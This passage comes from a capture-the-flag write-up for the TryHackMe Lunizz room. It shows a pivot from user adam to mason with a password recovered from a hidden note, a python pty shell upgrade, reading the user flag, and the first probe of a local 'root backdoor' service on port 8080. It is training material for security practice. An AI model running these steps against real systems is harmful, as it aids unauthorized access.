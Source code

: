 I'm `adam`!

## adam to mason

**In the `Desktop` directory of `adam`'s home directory, there is a weird txt file:**
```
adam@lunizz:~/Desktop/.archive$ cat to_my_best_friend_adam.txt 
do you remember our place 
i love there it's soo calming
i will make that lights my password

--

https://www.google.com/maps/@{Redacted}
```

**This google map link brings me to a place:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Lunizz-CTF/images/a8.png)

**And the place name is the `mason`'s password!**

Let's **Switch User** to `mason`! (All small captial letters and no space.)

```
adam@lunizz:~/Desktop/.archive$ su mason
Password: 

$ python3 -c "import pty;pty.spawn('/bin/bash')"
mason@lunizz:/home/adam/Desktop/.archive$ whoami;hostname;id;ip a
mason
lunizz
uid=1001(mason) gid=1001(mason) groups=1001(mason)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:25:e4:9d:4e:89 brd ff:ff:ff:ff:ff:ff
    inet 10.10.60.160/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2971sec preferred_lft 2971sec
    inet6 fe80::25:e4ff:fe9d:4e89/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm `mason`!

**user.txt:**
```
mason@lunizz:~$ cat /home/mason/user.txt 
thm{Recated}
```

## mason to root

**Did you still remember the port 8080 in localhost?**
```
mason@lunizz:~$ curl http://localhost:8080/
**********************************************************
*                Mason's Root Backdoor                   *
*                                                        *
*   Please Send Request (with "password" and "cmdtype")  *
*                                                        *
**********************************************************
-------------CMD TYPES-------------
lsla
reboot
passwd
```
